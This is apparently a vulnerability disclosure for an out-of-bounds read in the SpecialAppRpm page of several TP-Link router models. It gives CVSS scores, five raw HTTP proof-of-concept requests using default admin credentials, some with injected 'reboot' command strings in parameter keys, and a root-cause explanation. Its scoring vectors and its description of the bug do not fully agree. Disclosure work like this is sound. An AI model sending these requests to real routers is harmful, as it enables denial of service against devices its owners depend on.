


# TP-Link TL-WR941ND/TL-WR740N/TL-WR841N/TL-WR940N wireless router /userRpm/SpecialAppRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR740N V1/V2、TL-WR941ND V5、TP-Link TL-WR841N V8、TL-WR940N V6 and TL-WR940N V2. Its /userRpm/SpecialAppRpm implementation has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR740N V1/V2、TP-Link TL-WR841N V8、TP-Link TL-WR940N V2、TP-Link TL-WR941ND V5、TP-Link TL-WR940N V6

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR740N V1/V2 is as follows:

```http
GET /userRpm/SpecialAppRpm.htm?trPort=6112&trProtocol=2&inPort=6112&inProtocol=2&State=1&Commonapp=1&&&CMD=$"reboot";$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/SpecialAppRpm.htm?trPort=34&trProtocol=1&inPort=567&inProtocol=1&State=1&Commonapp=0&CMD=$'reboot';$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2 is as follows:

```http
GET /NWMEFWCBVZYBMCIA/userRpm/SpecialAppRpm.htm?trPort=6112&trProtocol=1&inPort=6112&inProtocol=1&State=1&Commonapp=1&Changed|=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```
The PoC of TP-Link TL-WR940N V6 is as follows:

```http
GET /DIKHXMDAJARLTZQC/userRpm/SpecialAppRpm.htm?trPort=2019&trProtocol=2&inPort=2000-2038%2C2050-2051%2C2069%2C2085%2C3010-3030&inProtocol=1&State=1&Commonapp=3&;${reboot};=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/XKZTZRGANXFYRCCA/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```

The PoC of TP-Link TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/SpecialAppRpm.htm?trPort=6112&trProtocol=1&inPort=6112&inProtocol=1&State=1&Commonapp=1&||reboot|=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/YOKQCLEBKGHAVJDB/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```
## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/SpecialAppRpm component implements a security vulnerability in processing the Changed GET key parameter. The length of the parameter key of Changed can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:


After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.







## 5. The basis for judging as a 0-day vulnerability

Search the SpecialAppRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the SpecialAppRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).